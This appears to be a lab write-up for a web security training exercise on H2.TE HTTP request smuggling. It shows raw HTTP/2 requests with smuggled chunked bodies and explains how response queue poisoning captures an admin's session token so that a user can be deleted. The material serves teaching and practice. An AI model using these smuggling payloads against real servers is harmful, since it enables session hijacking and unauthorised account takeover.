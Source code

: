 # Response queue poisoning via H2.TE request smuggling
# Objective
This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests even if they have an ambiguous length.

To solve the lab, delete the user `carlos` by using response queue poisoning to break into the admin panel at `/admin`. An admin user will log in approximately every 15 seconds.

The connection to the back-end is reset every 10 requests, so don't worry if you get it into a bad state - just send a few normal requests to get a fresh connection.

# Solution
## Analysis
### Basic request smuggling attact attempts
#### H2.CL attempt
There is no visible indication of HTTP/2 downgrading vulnerability.
```
POST / HTTP/2
Host: 0a7a00c20317eebe803a2648006d0060.web-security-academy.net
Cookie: session=YpntYpz3l2Es4egjv1aC07DVB3oeXfpR
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Length: 0

GET /smuggled HTTP/1.1
Host: 0a7a00c20317eebe803a2648006d0060.web-security-academy.net
Content-Length: 5

x=1
```

|![](Images/image-69.png)|
|:--:| 
| *No visible indication of HTTP/2 downgrading vulnerability* |

#### H2.TE attempt
Website is vulnerable to `H2.TE` request smuggling.
```
POST / HTTP/2
Host: 0a7a00c20317eebe803a2648006d0060.web-security-academy.net
Cookie: session=YpntYpz3l2Es4egjv1aC07DVB3oeXfpR
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Transfer-Encoding: chunked

0

GET /smuggled HTTP/1.1
Host: 0a7a00c20317eebe803a2648006d0060.web-security-academy.net
Foo: bar
```

|![](Images/image-68.png)|
|:--:| 
| *HTTP/2 downgrading vulnerability  occured* |

## Exploitation
By exploitig `H2.TE` vulnerability attacker can poison response queue. Because of that, attacker can receive victim's response. In this case attacker was able to get `HTTP 302` response with admin's session token. Victim was trying to log in and he did not receive correct response. He received response to smuggled request (`GET` request to `/smuggled`) - `HTTP 404 Not found`.

> [!IMPORTANT]  
> In order to smuggle whole request and separate it from other request the smuggled request must end with `\r\n\r\n`

```
Client                                              Front-end
Attacker Request_1, Request_2 (smuggled)    -->     
                                            <--     Response_1
Victim Request_3                            -->
                                            <--     Response_2
Attacker Request_4                          -->
                                            <--     Response_3
```

```
POST / HTTP/2
Host: 0a7a00c20317eebe803a2648006d0060.web-security-academy.net
Cookie: session=YpntYpz3l2Es4egjv1aC07DVB3oeXfpR
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Transfer-Encoding: chunked

0

GET /smuggled HTTP/1.1
Host: 0a7a00c20317eebe803a2648006d0060.web-security-academy.net

```

|![](Images/image-70.png)|
|:--:| 
| *Successful response queue poisoning* |
|![](Images/image-71.png)|
| *Deletion of user Carlos* |
